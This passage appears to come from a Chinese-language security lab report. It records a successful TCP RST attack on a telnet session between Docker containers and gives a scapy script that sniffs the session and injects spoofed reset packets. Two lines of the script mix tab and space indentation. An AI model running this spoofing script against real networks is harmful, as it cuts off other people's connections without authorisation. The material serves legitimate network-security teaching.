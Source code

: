 ![image-20220410204208529](readme.assets/image-20220410204208529.png)

你的攻击是否成功？成功了。
你怎么知道它是否成功？telnet的连接终止，同时Wireshark抓包看到了RST包。
你期待看到什么？期待看到telnet连接终止和RST包的发送。
你观察到了什么？观察到了telnet的连接终止，同时Wireshark抓包看到了RST包。
观察结果是你预想的那样吗？二者一致  

## scapy自动

脚本：

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23

def spoof(pkt):
    old_tcp = pkt[TCP]
    old_ip = pkt[IP]
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack,flags = "R") 
    pkt = ip/tcp
	send(pkt, verbose=0)
	print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof, iface="docker0")
```
